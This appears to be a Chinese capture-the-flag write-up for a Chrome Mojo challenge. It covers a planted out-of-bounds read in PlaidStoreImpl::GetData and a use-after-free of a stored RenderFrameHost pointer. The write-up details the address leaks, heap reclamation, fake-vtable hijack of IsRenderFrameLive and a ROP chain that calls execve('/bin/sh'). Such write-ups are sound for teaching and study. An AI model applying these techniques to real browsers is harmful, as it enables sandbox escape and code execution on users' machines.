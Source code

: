 # 漏洞
1.没有对getdata的count做校验，导致越界读
```
+void PlaidStoreImpl::GetData(
+    const std::string &key,
+    uint32_t count,
+    GetDataCallback callback) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    std::move(callback).Run({});
+    return;
+  }
+  auto it = data_store_.find(key);
+  if (it == data_store_.end()) {
+    std::move(callback).Run({});
+    return;
+  }
+  std::vector<uint8_t> result(it->second.begin(), it->second.begin() + count);
+  std::move(callback).Run(result);
+}
```

2.

PlaidStoreImpl具体定义如下，注意在构造时存储了render_frame_host_
```
+namespace content {
+
+class RenderFrameHost;
+
+class PlaidStoreImpl : public blink::mojom::PlaidStore {
+ public:
+  explicit PlaidStoreImpl(RenderFrameHost *render_frame_host);
+
+  static void Create(
+      RenderFrameHost* render_frame_host,
+      mojo::PendingReceiver<blink::mojom::PlaidStore> receiver);
+
+  ~PlaidStoreImpl() override;
+
+  // PlaidStore overrides:
+  void StoreData(
+      const std::string &key,
+      const std::vector<uint8_t> &data) override;
+
+  void GetData(
+      const std::string &key,
+      uint32_t count,
+      GetDataCallback callback) override;
+
+ private:
+  RenderFrameHost* render_frame_host_;
+  std::map<std::string, std::vector<uint8_t> > data_store_;
+};
+
+} // namespace content

+namespace content {
+
+PlaidStoreImpl::PlaidStoreImpl(
+    RenderFrameHost *render_frame_host)
+    : render_frame_host_(render_frame_host) {}
+
+PlaidStoreImpl::~PlaidStoreImpl() {}
+
+void PlaidStoreImpl::StoreData(
+    const std::string &key,
+    const std::vector<uint8_t> &data) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    return;
+  }
+  data_store_[key] = data;
+}
+
+void PlaidStoreImpl::GetData(
+    const std::string &key,
+    uint32_t count,
+    GetDataCallback callback) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    std::move(callback).Run({});
+    return;
+  }
+  auto it = data_store_.find(key);
+  if (it == data_store_.end()) {
+    std::move(callback).Run({});
+    return;
+  }
+  std::vector<uint8_t> result(it->second.begin(), it->second.begin() + count);
+  std::move(callback).Run(result);
+}
+
+// static
+void PlaidStoreImpl::Create(
+    RenderFrameHost *render_frame_host,
+    mojo::PendingReceiver<blink::mojom::PlaidStore> receiver) {
+  mojo::MakeSelfOwnedReceiver(std::make_unique<PlaidStoreImpl>(render_frame_host),
+                              std::move(receiver));
+}
+
+} // namespace content
```

此处一个MakeSelfOwnedReceiver表面此PlaidStoreImpl是一个StrongBinding，这意味着它掌控它自己，只有当interface关闭了或者出现通信错误了才会调用析构函数。这样的话，如果我们先释放了RenderFrameHost，再在PlaidStoreImpl中调用的话，就是一个UaF漏洞了。通过伪造vtable，我们可以在调用render_frame_host_->IsRenderFrameLive()时控制程序流程。
```
+void PlaidStoreImpl::Create(
+    RenderFrameHost *render_frame_host,
+    mojo::PendingReceiver<blink::mojom::PlaidStore> receiver) {
+  mojo::MakeSelfOwnedReceiver(std::make_unique<PlaidStoreImpl>(render_frame_host),
+                              std::move(receiver));
+}
```

# 利用

## 泄露地址

每一个PlaidStoreImpl的排布大致如下，如果我们申请多个，在getdata的时候就可以读取下一个PlaidStoreImpl的vtable和render_frame_host
```
0x0000558de05837a0 <= vtable    0x000021499c6e4400 <= render_frame_host
0x000021499c74e048 <= data      0x0000000000000000
```
浏览器基地址可以通过vtable算出,用于寻找gadget，render_frame_host用于后续rop

## uaf

两个函数（storedata和getdata）开头的处都会检查render_frame_host_->IsRenderFrameLive(), 但是并没有检查render_frame_host_ 是否可用，我们可以创建一个iframe ，绑定一个PlaidStoreImpl并泄露render_frame_host返回给 parent, 然后删除这个iframe，这个时候render_frame_host_ 被释放了，但是仍可以调用getData 和storeData
于是可以进行申请PlaidStoreImpl相同size的块获取到被释放的render_frame_host_ , 改写其vtable，然后在执行render_frame_host_->IsRenderFrameLive() 的时候就可以劫持控制流。

RenderFrameHost 对象使用content::RenderFrameHostFactory::Create() 函数创建
```
f1ag@f1ag-virtual-machine:~/chrome$ nm --demangle  ./chrome |grep -i 'content::RenderFrameHostFactory::Create'  
0000000003b219e0 t content::RenderFrameHostFactory::Create(content::SiteInstance*, scoped_refptr<content::RenderViewHostImpl>, content::RenderFrameHostDelegate*, content::FrameTree*, content::FrameTreeNode*, int, int, bool)
```
简单跟几步就可以得到RenderFrameHost的size为0xc28
```
0x0000555559075a50 <+112>:   jmp    0x555559075aca <content::RenderFrameHostFactory::Create(content::SiteInstance*, scoped_refptr<content::RenderViewHostImpl>, content::RenderFrameHostDelegate*, content::Fram
eTree*, content::FrameTreeNode*, int, int, bool)+234>
// new(0xc28) 
   0x0000555559075a52 <+114>:   mov    edi,0xc28
   0x0000555559075a57 <+119>:   call   0x55555ac584b0 <operator new(unsigned long, std::nothrow_t const&)>
   0x0000555559075a5c <+124>:   mov    rdi,rax
   0x0000555559075a5f <+127>:   mov    rax,QWORD PTR [r14]
   0x0000555559075a62 <+130>:   mov    QWORD PTR [rbp-0x38],rax
   0x0000555559075a66 <+134>:   mov    QWORD PTR [r14],0x0
   0x0000555559075a6d <+141>:   sub    rsp,0x8
   0x0000555559075a71 <+145>:   movzx  eax,BYTE PTR [rbp+0x20]
   0x0000555559075a75 <+149>:   lea    rdx,[rbp-0x38]
   0x0000555559075a79 <+153>:   mov    r14,rdi
   0x0000555559075a7c <+156>:   mov    rsi,rbx
   0x0000555559075a7f <+159>:   mov    rcx,r13
   0x0000555559075a82 <+162>:   mov    r8,r12
   0x0000555559075a85 <+165>:   mov    r9,r15
```
覆写fakevtable中的IsRenderFrameLive
查看getdata头部第一次函数调用，这里就是IsRenderFrameLive
```
.text:0000000003C582C1                 mov     r15, rcx
.text:0000000003C582C4                 mov     r12d, edx
.text:0000000003C582C7                 mov     r14, rsi
.text:0000000003C582CA                 mov     rbx, rdi
.text:0000000003C582CD                 mov     rdi, [rdi+8]
.text:0000000003C582D1                 mov     rax, [rdi]
.text:0000000003C582D4                 call    qword ptr [rax+160h] ;here is IsRenderFrameLive
.text:0000000003C582DA                 test    al, al
.text:0000000003C582DC                 jz      loc_3C5836E
.text:0000000003C582E2                 lea     rdi, [rbx+10h]
.text:0000000003C582E6                 mov     rsi, r14
```
## rop布局
xchg rax, rsp中rax的值通过在IsRenderFrameLive下断点即可得知
```
frame_addr =>   [0x00] : vtable  ==> frame_addr + 0x10  ------------\
				[0x08] : none										|
				[0x10] : none										|
                [0x18] : gadget => pop rdi                 			|
            /-- [0x20] : frame_addr + 0x178 						|
            |   [0x28] : gadget => pop rsi                          |
            |   [0x30] : 0     										|
			|	[0x38] : gadget => pop rdx                          |
            |   [0x40] : 0                       					| vtable+0x10   
            |   [0x48] : gadget => pop rax   						|
			|   [0x50] : 59   										|
			|   [0x58] : gadget => syscall  						|
            |   ...                                                 V
            |   [0x160 + 0x10] : xchg rax, rsp ;(rax=vtable) <= isRenderFrameLive
            ->  [0x160 + 0x18] :  "/bin/sh\x00"
```
